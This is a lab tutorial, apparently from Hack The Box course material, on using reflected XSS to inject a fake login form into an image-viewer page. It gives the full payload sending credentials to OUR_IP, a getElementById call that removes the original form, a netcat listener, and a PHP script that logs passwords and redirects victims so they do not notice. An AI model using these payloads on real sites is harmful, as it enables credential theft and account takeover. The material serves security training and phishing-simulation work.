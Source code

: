 # Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

***

## XSS Discovery

We start by attempting to find the XSS vulnerability in the web application at `/phishing` from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:

Visiting [`http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg`](http://server_ip/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg) :

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the `dead image url` icon:

Visiting [`http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>`](http://server_ip/phishing/index.php?url=%3Cscript%3Ealert\(window.origin\)%3C/script%3E) :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. `Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

{% hint style="info" %}
**Tip:** To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.
{% endhint %}

***

## Login Form Injection

Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can now inject this JavaScript code using our XSS payload (i.e., instead of running the `alert(window.origin)` JavaScript Code). In this case, we are exploiting a `Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Cleaning Up

We can see that the URL field is still displayed, which defeats our line of "`Please login to continue`". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function `document.getElementById().remove()` function.

To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking \[`CTRL+SHIFT+C`] and then clicking on the element we need:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we see in both the source code and the hover text, the `url` form has the id `urlform`:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the `remove()` function to remove the URL form:

```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:

```html
...PAYLOAD... <!-- 
```

As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.

***

## Credential Stealing

Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

So, let us start a simple `netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

```shell-session
$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Now, let's attempt to login with the credentials `test:test`, and check the `netcat` output we get (`don't forget to replace OUR_IP in the XSS payload with your actual IP`):

```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:

```shell-session
al1abb@htb[/htb]$ mkdir /tmp/tmpserver
al1abb@htb[/htb]$ cd /tmp/tmpserver
al1abb@htb[/htb]$ vi index.php #at this step we wrote our index.php file
al1abb@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we check the `creds.txt` file in our Pwnbox, we see that we did get the login credentials:

```shell-session
$ cat creds.txt
Username: test | Password: test
```

With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.
